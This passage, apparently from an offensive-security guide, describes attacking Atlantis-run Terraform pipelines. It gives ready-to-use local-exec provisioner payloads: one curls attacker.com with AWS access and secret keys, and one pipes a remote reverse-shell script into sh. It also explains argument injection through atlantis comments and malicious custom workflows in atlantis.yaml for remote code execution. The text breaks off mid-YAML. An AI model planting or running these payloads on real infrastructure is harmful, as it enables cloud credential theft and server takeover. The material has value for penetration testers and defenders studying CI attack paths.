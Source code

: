 Running **`terraform apply` on a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
You just need to make sure some payload like the following ones ends in the `main.tf` file:

```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way**.

#### Terraform Param Injection

When running `atlantis plan` or `atlantis apply` terraform is being run under-needs, you can pass commands to terraform from atlantis commenting something like:

```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```

Something you can pass are env variables which might be helpful to bypass some protections. Check terraform env vars in [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

#### Custom Workflow

Running **malicious custom build commands** specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** of `master`.\
This possibility was mentioned in a previous section:

> [!CAUTION]
> If the [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) flag `allow_custom_workflows` is set to **True**, workflows can be **specified** in the **`atlantis.yaml`** file of each repo. It's also potentially needed that **`allowed_overrides`** specifies also **`workflow`** to **override the workflow** that is going to be used.
>
> This will basically give **RCE in the Atlantis server to any user that can access that repo**.
>
> ```yaml
> # atlantis.yaml
> version: 3
> projects:
>   - dir: .
>     workflow: custom1
> workflows:
>   custom1:
>     plan:
>       steps:
>         - init
>         - run: my custom plan command
>     apply:
>       steps: